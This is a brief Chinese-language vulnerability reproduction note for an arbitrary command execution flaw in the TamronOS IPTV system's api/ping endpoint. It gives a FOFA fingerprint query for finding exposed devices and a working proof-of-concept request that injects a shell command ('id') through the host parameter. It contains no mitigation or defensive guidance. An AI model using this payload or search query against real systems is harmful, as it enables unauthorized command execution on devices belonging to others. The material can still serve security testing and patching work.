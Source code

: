 # TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

```
TamronOS IPTV系统
```

## FOFA

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101926621.png)



漏洞POC为



```plain
/api/ping?count=5&host=;id;
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101927800.png)